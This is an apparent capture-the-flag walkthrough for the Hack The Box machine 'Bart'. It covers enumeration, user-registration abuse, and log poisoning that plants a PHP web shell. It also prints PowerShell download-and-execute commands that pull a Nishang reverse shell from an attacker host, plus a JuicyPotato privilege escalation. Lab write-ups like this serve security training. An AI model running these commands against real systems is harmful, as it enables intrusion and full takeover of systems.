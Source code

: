 ```yaml
---
layout: post
title: "HTB-Bart"
categories: HTB-Walkthrough
---
```


![bart1](/assets/img/bart/bart1.png)


Another HTB machine from TJNull's 'more challenging than OSCP' list.



<h3>Nmap</h3>

```
nmap -sV -Pn --min-rate 10000 -p- 10.10.10.81 |tee -a bart.txt
```

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
```

The web-site wouldn't load, adding forum.bart.htb to the /etc/hosts file fixed the problem.

![web1](/assets/img/bart/bart-web1.png)


Browsing the web-site we pick up some names of the team:
```
Samantha Brown
Daniel Simmons
Robert Hilton
```

The source reveals that the 'code artists' are not as accomplished as they present themselves.

![hpotter](/assets/img/bart/bart-harvey-potter.png)


Adding more users breaks the code?


<hr width="300" size="8">



<h3>FFUF</h3>


[ffuf](https://github.com/ffuf/ffuf) is a very quick fuzzer written in `go`.

```
ffuf -u http://bart.htb/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 663
```

![ffuf](/assets/img/bart/bart-ffuf1.png)

We can pick out hits for 'forum' and 'monitor' among the results...adding `monitor.bart.htb` to the
/etc/hosts file and checking it out in firefox is encouraging enough to stop the ffuf process.

![monitor](/assets/img/bart/bart-monitor1.png) 



<hr width="300" size="8">




The usual login attempts don't work, but we can enumerate users with the 'forgot password' function.

I try 'admin' first.

![forgot](/assets/img/bart/bart-forgot-pass.png)


Remembering the user mentioned in the source comments (harvey potter) I try 'harvey' and get a positive result.

![harvey](/assets/img/bart/bart-harvey-passreset.png)


I try 'potter' as password, and it works!

![potter](/assets/img/bart/bart-server-monitor.png)


<hr width="300" size="8">


Browsing this app, we can identify the server being monitored.

![servers](/assets/img/bart/bart-servers1.png)


There's an internal chat server running, `http://internal-01.bart.htb`


![chat](/assets/img/bart/bart-chat1.png)

The `harvey/potter` credentials don't work here, it needs to be a minimum of 8 characters.

The url for the login form is:
```
http://internal-01.bart.htb/simple_chat/login_form.php
```

Running ffuf again against the new target yeilds more directories:

```
ffuf -u http://internal-01.bart.htb/simple_chat/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


I googled 'simple_chat php' and received a mound of examples, many similarly running php, html, css, ajax and sql.

All have a `register` facility, usually 'register.php' or 'register_form.php'; usually provided by a post request providing username and password.


Here's an example:

```
https://github.com/manumanoj0010/simple-chat-system/blob/master/register.php
```

![example](/assets/img/bart/bart-register-example.png)



<hr width="300" size="8">




Gobuster and ffuf don't find any 'register', so I start burp to see what I can find and do.

I attempt to login with 'admin/password123', then look at the request.

![burp-post](/assets/img/bart/bart-burp-post-login.png)

I send the request to the 'repeater', and manipulate some information.

I swap 'login.php' for 'register.php', and I replace the creds attempted with those to be registered,
and delete the 'submit' part.


![register](/assets/img/bart/bart-register-sh1n.png)



<h4>Success!!!</h4>

It worked, and I was able to login with 'sh1n0bi/password123'

![sh1n-in](/assets/img/bart/bart-sh1n-success.png)



We see an ongoing chat between harvey, bobby, and daniel.


<hr width="300" size="8">



Clicking the 'Log' link, 2 alert messages appear "Done" followed by "1".


<h3>LFI - Log Poisoning</h3>


Playing with the request to the log.php, The 'UserAgent' Header appears vulnerable; it is possible to inject commands
that reflect results in this file.

Replacing the UserAgent with a php system command reflects the system response.

```
<?php system(whoami);?>
```

![whoami](/assets/img/bart/bart-whoami.png)


We can take this a step further and inject a command variable 'cmd'
```
<?php system($_REQUEST['cmd']);?>
```

Now we can use this to execute various commands, and achieve a reverse shell.


[Nishang's powershell reverse tcp shell](https://github.com/samratashok/nishang) can be tailored by appending this command to the bottom.

```
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.24 -Port 6969
```

We can call this script in the browser url with a powershell command:

```
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey&cmd=powershell%20iex(New-Object%20Net.Webclient).downloadstring(%27http://10.10.14.24/shell.ps1%27)
```

Before its execution, make sure a python webserver is running to serve shell.ps1, and a netcat listener is running to catch the reverse shell.

```
python3 -m http.server 80
```
and
```
nc -nlvp 6969
```


The exploit works, and we have a shell.

![revshell](/assets/img/bart/bart-revshell.png)




<hr width="300" size="8">



<h3>Privilege Escalation</h3>


Rooting around the `inetpub` directory, we can find harvey's database creds.

![dbconnect](/assets/img/bart/bart-harvey-creds-dbconnect.png)




`systeminfo` shows that this is a 64bit Win10 pro machine,

![sysinfo](/assets/img/bart/bart-systeminfo.png)


<hr width="300" size="8">



For privesc this box had me foxed!

I intended to exploit it manually, but failed to find anything to leverage in the time I was willing to spend on the box.
So I got a meterpreter shell, and failed to use that effectively, even using the multi/recon/local_exploit_suggester.
I took the easy route and used JuicyPotato to get a system shell, and grab the flags.

Im going to make a mental note to come back and do this properly.


<hr width="300" size="8">

<h3>Juicy Potato</h3>




`jp command`
```
.\jp.exe -l 9001 -t * -p c:\boo\evil.bat -c "{7A6D9C0A-1E7A-41B6-82B4-C3F7A27BA381}"
```

<hr width="300" size="8">


`contents of evil.bat`
```
powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.24/shell2.ps1')
```

`copy evil.bat to target`
```
powershell iwr -uri http://10.10.14.24/evil.bat -outfile c:\boo\evil.bat
```

<hr width="300" size="8">


`appended command in shell2.ps1` (which is a copy of Nishang's shell.ps1)
```
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.24 -Port 8989
```

<hr width="300" size="8">


`instructions`
```
1 set listener for 8989
2 set python3 -m http.server 80
3 copy shell.bat to target
4 use jp command
```

```
PS C:\users\h.potter> cat user.txt
62xxxxxxxxxxxxxxxxxxxxxxxxxxxx0f
```
```
PS C:\users\administrator\desktop> cat root.txt
00xxxxxxxxxxxxxxxxxxxxxxxxxxxxdc
```


<hr width="300" size="8">

:(
